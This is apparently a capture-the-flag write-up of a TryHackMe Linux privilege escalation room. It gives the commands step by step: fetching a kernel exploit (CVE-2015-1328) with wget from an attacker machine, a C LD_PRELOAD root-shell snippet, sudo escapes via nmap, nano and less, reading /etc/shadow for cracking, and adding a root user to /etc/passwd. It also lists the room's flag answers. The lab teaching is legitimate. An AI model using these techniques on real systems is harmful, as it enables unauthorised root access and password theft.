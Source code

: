 # Linux Privilege Escalation

> Learn the fundamentals of Linux privilege escalation. From enumeration to exploitation, get hands-on with over 8 different privilege escalation techniques.

## Enumeration

```
hostname
uname -a
cat /etc/issue
python --version
```

![image](https://user-images.githubusercontent.com/90561566/195976275-e3fdd29f-8190-4f3b-8d1d-da5fc16514de.png)

![image](https://user-images.githubusercontent.com/90561566/195976293-3a425129-ca5c-4efa-b296-d4960ddf65b1.png)

```
searchsploit linux 3.13.0 Ubuntu 14.04
```

![image](https://user-images.githubusercontent.com/90561566/195976408-23a04384-0a58-480e-94db-a36695adaf17.png)

the answer is `CVE-2015-1328`

![image](https://user-images.githubusercontent.com/90561566/195976412-650b4a78-27d8-485e-81fe-41f56fa8be1a.png)

## Privilege Escalation: Kernel Exploits

download the exploit

```
searchsploit -m 37292.c
```

we can see it can't create or write file on target system, but we can move to /tmp directory to do it

```
cd /tmp
```

transfer the exploit to target system

```
ifconfig
python3 -m http.server
```

![image](https://user-images.githubusercontent.com/90561566/195976643-301ee84d-5619-4cc4-a20d-49551b7cc829.png)

on target system

```
wget 10.18.7.11:8000/37292.c
```

![image](https://user-images.githubusercontent.com/90561566/195976619-7a4c67e1-ca26-4608-8574-bde302dbe47c.png)

run the exploit

```
gcc 37292.c -o abc
id
./abc
id
```

![image](https://user-images.githubusercontent.com/90561566/195976781-2ebebda2-6f78-4f9e-b099-8d3af3f810c6.png)

![image](https://user-images.githubusercontent.com/90561566/195976815-9132a76e-9b9f-49a1-af85-9b8e252bf3f5.png)

| Flag | flag1.txt |
| --- | --- |
| Answer | THM-28392872729920 |

## Privilege Escalation: Sudo

Leverage application functions

Some applications will not have a known exploit within this context. Such an application you may see is the Apache2 server.

In this case, we can use a "hack" to leak information leveraging a function of the application. As you can see below, Apache2 has an option that supports loading alternative configuration files (-f : specify an alternate ServerConfigFile).

![image](https://user-images.githubusercontent.com/90561566/195977500-5a22994c-c0b6-427e-99c2-03ebfc248f1e.png)

Loading the /etc/shadow file using this option will result in an error message that includes the first line of the /etc/shadow file.

Leverage LD_PRELOAD

On some systems, you may see the LD_PRELOAD environment option.

![image](https://user-images.githubusercontent.com/90561566/195977513-3727c8f3-9c9f-4bd9-a9e6-70145770c0bd.png)


The C code will simply spawn a root shell and can be written as follows;

```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```

We can save this code as shell.c and compile it using gcc into a shared object file using the following parameters

```
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

We can now use this shared object file when launching any program our user can run with sudo. In our case, Apache2, find, or almost any of the programs we can run with sudo can be used.

We need to run the program by specifying the LD_PRELOAD option, as follows

```
sudo LD_PRELOAD=/home/user/ldpreload/shell.so find
```

This will result in a shell spawn with root privileges.

![image](https://user-images.githubusercontent.com/90561566/195977557-95f47625-a7d2-49ce-a3dd-8baf241bcd88.png)

okay, comeback to this task is about sudo command

```
sudo -l
```

![image](https://user-images.githubusercontent.com/90561566/195977347-8acefc8a-1236-418b-950c-e8e50fbc5d25.png)

flag2 is easy to get with no restriction

![image](https://user-images.githubusercontent.com/90561566/195977474-1bcfcc3b-9df7-4c13-bc21-20295005f224.png)

| Flag | flag2.txt |
| --- | --- |
| Answer | THM-402028394 |

How would you use Nmap to spawn a root shell if your user had sudo rights on nmap?

![image](https://user-images.githubusercontent.com/90561566/195977734-88cf1b40-8806-458e-b257-e332f793e710.png)

```
sudo nmap --interactive
```

the next task is see hash of frank's password

and you can use nano, less, find with sudo

![image](https://user-images.githubusercontent.com/90561566/195977934-8fbffaad-c79a-4a1c-bfc8-8ff58ef18e6e.png)

```
sudo nano
^R^X
reset; sh 1>&0 2>&0
```

or basically with less

```
sudo less /etc/shadow
```

![image](https://user-images.githubusercontent.com/90561566/195978060-52d86ab9-2b27-4a2a-b7b7-41a87d96e4a6.png)

## Privilege Escalation: SUID

You will notice these files have an “s” bit set showing their special permission level.

`find / -type f -perm -04000 -ls 2>/dev/null` will list files that have SUID or SGID bits set.

![image](https://user-images.githubusercontent.com/90561566/196024494-dc9e397d-f0cc-4960-a52f-df8a45d9a020.png)

We see that the nano text editor has the SUID bit set by running the find / -type f -perm -04000 -ls 2>/dev/null command.

nano /etc/shadow will print the contents of the /etc/shadow file. We can now use the unshadow tool to create a file crackable by John the Ripper.

To achieve this, unshadow needs both the /etc/shadow and /etc/passwd files.

The unshadow tool’s usage can be seen below

```
unshadow passwd.txt shadow.txt > passwords.txt
```

With the correct wordlist and a little luck, John the Ripper can return one or several passwords in cleartext

The other option would be to add a new user that has root privileges. This would help us circumvent the tedious process of password cracking. Below is an easy way to do it:

We will need the hash value of the password we want the new user to have. This can be done quickly using the openssl tool on Kali Linux.

![image](https://user-images.githubusercontent.com/90561566/196024905-d9bff419-1e8f-427d-b6bd-58692a44d4db.png)

We will then add this password with a username to the /etc/passwd file.

![image](https://user-images.githubusercontent.com/90561566/196024918-1ec97ebd-d4d8-4249-9f37-4c240cf8fa17.png)

Once our user is added (please note how root:/bin/bash was used to provide a root shell) we will need to switch to this user and hopefully should have root privileges.

![image](https://user-images.githubusercontent.com/90561566/196024937-2f8a604d-9998-495c-901b-1066760a6e1e.png)


















































